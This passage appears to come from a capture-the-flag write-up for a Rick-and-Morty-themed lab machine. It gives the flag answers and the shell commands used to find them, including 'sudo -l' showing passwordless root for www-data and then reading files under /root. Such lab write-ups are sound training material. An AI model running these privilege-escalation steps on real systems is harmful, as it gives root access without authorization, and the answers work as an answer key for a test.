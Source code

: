     ```bash
    grep . Sup3rS3cretPickl3Ingred.txt
    (or)
    less Sup3rS3cretPickl3Ingred.txt
    (or)
    while read line; do echo $line; done < Sup3rS3cretPickl3Ingred.txt
    ```
    
---

### What is the second ingredient Rick needs?
- **Answer:** 1 jerry tear
- **Steps to Reproduce:** 

- As per the clue, I was searching for the other ingredient in the file system and the **second ingredient** was in the directory `/home/rick`.

```bash
cd /home/rick/; ls -la; grep . "second ingredients"

total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
1 jerry tear
```

---

### Whats the final ingredient Rick needs?
- **Answer:** fleeb juice
- **Steps to Reproduce:** 

    - By Running `sudo -l`, you can find the permission of user to run the commands as root user.
    - Apparently `www-data` had permission to run **all the commands without password**.
    
    ```bash
    sudo -l 

    Matching Defaults entries for www-data on ip-10-10-36-31.eu-west-1.compute.internal:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on ip-10-10-36-31.eu-west-1.compute.internal:
        (ALL) NOPASSWD: ALL
    ```

    - Locating the third ingredient:

    ```bash
    sudo ls /root

    3rd.txt
    snap

    sudo less /root/3rd.txt
